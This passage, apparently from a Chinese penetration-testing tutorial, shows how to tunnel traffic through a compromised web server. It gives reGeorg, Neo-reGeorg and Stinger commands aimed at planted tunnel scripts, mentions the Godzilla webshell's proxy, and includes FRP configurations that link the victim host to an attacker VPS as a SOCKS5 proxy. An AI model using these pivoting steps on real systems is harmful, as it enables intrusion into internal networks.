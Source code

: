 1. 使用ython   
reGeorgSocksProxy.py  
 -p 8080 -u   
http://upload.sensepost.net:8080/tunnel/tunnel.jsp  
  
1. 使用python   
neoreg.py  
 -u   
http://192.168.163.138/www.yxcms6.com/protected/apps/default/view/default/tunnel.php  
 --proxy socks5://  
10.1.1.1:8888  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/veA9QmcJk5mCEM3ulgybYUA23my4Vf8SgibicL07UGgU7aibEGPo22tToBibjoxIsuibFr06joJkkvI9zXm8qibhmhiaQ/640?wx_fmt=png&from=appmsg "")  
  
### （二）毒刺代理  
  
- **windows 服务端**  
：start D:/XXX/stinger_server.exe   
0.0.0.0  
  
- **客户端（vps）**  
：./stinger_client -w   
http://192.168.163.138/www.yxcms6.com/protected/apps/default/view/default/proxy.php  
 -l   
127.0.0.1  
 -p 60000  
  
### （三）哥斯拉内置代理  
  
  
直接使用哥斯拉内置代理功能。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/veA9QmcJk5mCEM3ulgybYUA23my4Vf8Sn0KsFMJxRZibFFuZawhhL3VwNSuQVJ2ZhleTbZPnkznic8ocKK5bzfFw/640?wx_fmt=png&from=appmsg "")  
  
### （四）FRP 代理  
  
- **VPS 服务端配置**  

```
[common]
bind_port = 57000
token = 123qwe    
heartbeat_timeout = 90  
max_pool_count = 5
```

- **webshell 客户端配置**  

```
[common]
server_addr = 1.1.1.1
server_port = 57000
token = 123qwe
pool_count = 5
protocol = tcp
health_check_type = tcp
health_check_interval_s = 100
[socks_test]
remote_port = 10000  
plugin = socks5
plugin_user = admin
plugin_passwd = password
use_encryption = true
use_compression = true
```
